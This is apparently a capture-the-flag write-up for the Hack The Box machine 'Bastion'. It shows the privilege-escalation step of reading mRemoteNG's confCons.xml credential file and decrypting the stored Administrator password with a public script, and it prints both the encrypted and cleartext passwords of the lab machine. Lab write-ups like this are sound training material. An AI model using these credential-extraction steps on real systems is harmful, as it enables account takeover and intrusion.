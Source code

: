 ![[Bastion-10.png]]

#### From l4mpje to root

Check the configuration file on AppData folder:

```powershell
cd /..
cd .\Users\L4mpje\AppData\Roaming\mRemoteNG\
ls
```

![[Bastion-11.png]]

```powershell
cat .\confCons.xml
```


```
PS C:\Users\L4mpje\AppData\Roaming\mRemoteNG> cat .\confCons.xml                                                                                                                
<?xml version="1.0" encoding="utf-8"?>                                                                                                                                          
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GC                                                
M" KdfIterations="1000" FullFileEncryption="false" Protected="ZSvKI7j224Gf/twXpaP5G2QFZMLr1iO1f5JKdtIKL6eUg+eWkL5tKO886au0ofFPW0                                                
oop8R8ddXKAx4KK7sAk6AA" ConfVersion="2.6">                                                                                                                                      
    <Node Name="DC" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="500e7d58-662a-44d4-aff0-3a4f547a3fee" Userna                                                
me="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="                                                
                                    
```

Note that hash of admin credential was `aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==`  

##### Crack the mremote hash with mremoteng-decrypt

[mremoteng-decrypt](https://github.com/kmahyyg/mremoteng-decrypt) showed up on GitHub. 

```bash
wget https://raw.githubusercontent.com/kmahyyg/mremoteng-decrypt/master/mremoteng_decrypt.py
```

```bash
python3 mremoteng_decrypt.py -s "aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="
```

```
┌──(kali㉿kali)-[~/Desktop/Hackthebox/Bastion]
└─$ python3 mremoteng_decrypt.py -s "aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="
Password: thXLHM96BeKL0ER2

```
